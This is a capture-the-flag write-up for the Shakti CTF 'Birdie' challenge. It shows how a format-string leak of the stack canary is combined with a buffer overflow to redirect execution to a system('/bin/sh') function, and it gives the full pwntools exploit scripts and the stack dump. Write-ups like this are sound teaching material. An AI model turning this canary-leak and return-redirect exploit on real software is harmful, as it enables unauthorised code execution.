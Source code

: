 ```yaml
--- 
title:  "[Shakti CTF] Birdie"
date: 2021-04-05
tags: [pwn, fsb, ret2win, canary, shakti-ctf]
---
```


For this challenge we have an elf file that doesn't have a PIE but has a stack canary.

```
┌──(pwn)(eurus㉿warfare)-[~/…/shakti_ctf/Birdie]
└─$ python3 solver.py
[*] '/…/shakti_ctf/Birdie/birdie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

in disassembling this elf we can see that we have a string-format vulnerability and also the possibility to make a buffer overflow. We can also see that we have a function that call ```system('/bin/sh')```. In order to win this challenge, we need to redirect the flow of this binary program to this function.

A buffer overflow can be made by leaking the canary on the stack. Fortunately with the format-string vulnerability we can leak information from the binary-program during its execution.

```python
from pwn import *

elf = ELF('./birdie')
context.binary = elf

for i in range(1, 100):
    p = elf.process()
    p.recvuntil('Enter your name\n')
    p.sendline(f"%{i}$p")
    log.info(f"{i}:")
    leak = p.recvuntil('\n')
    log.info(leak)
    p.close()
```

I have written this little script to explore the stack and try to find the exact position where the canary is.

```text
[*] 1:
[*] 0x7ffe1c4a8b70
[*] 2:
[*] 0x20
[*] 3:
[*] 0x7f69ca347e8e
[*] 4:
[*] 0x10
[*] 5:
[*] 0x7f488078e180
[*] 6:
[*] 0xf0b2ff
[*] 7:
[*] 0xc2
[*] 8:
[*] 0x1
[*] 9:
[*] 0x4008dd
[*] 10:
[*] 0xa7024303125
[*] 11:
[*] (nil)
[*] 12:
[*] 0x400890
[*] 13:
[*] 0x400690
[*] 14:
[*] 0x7ffe929cda80
[*] 15:
[*] 0xd6194b70fcac3700
[*] 16:
[*] 0x400890
[*] 17:
[*] 0x7fccfae1ed0a
[*] 18:
[*] 0x7ffc3a997f28
[*] 19:
[*] 0x100000000
[*] 20:
[*] 0x4007e2
```

with this dump of the stack (be careful, this is not the stack of one single execution, but every leak in an offset is an individual execution) the canary is at the offset 15. The stack value can be dumped by sending the string: ```%15$p``` to the server.

Once we have the canary value, theoretically we can perform a buffer overflow. Using cyclic and gdb, we find that the offset to the canary in the execution is 72 bytes. Having this information, I have written a script that redirects the execution of the program.

```python
elf = ELF('./birdie')
context.binary = elf


p = elf.process()
#gdb.attach(p, gdbscript = 'b *0x00000000004007E2')
#p = remote("34.121.211.139", 1111)

p.recvuntil('Enter your name\n')
p.sendline(f"%15$p")
leak = str(p.recvuntil('\n'))
c = leak.replace('b\'','').replace('\\n\'','')

log.info(c)

win = 0x0000000000400873
ret_gd = 0x000000000040060e
canary = int(c, 16)
log.info(str(hex(canary)))
payload = b'A'*72+p64(canary)+p64(0)+p64(ret_gd)+p64(win)

p.recvuntil('Enter the payload\n')
p.sendline(payload)
p.interactive()
```

Now we have a shell that allows us to get the flag!
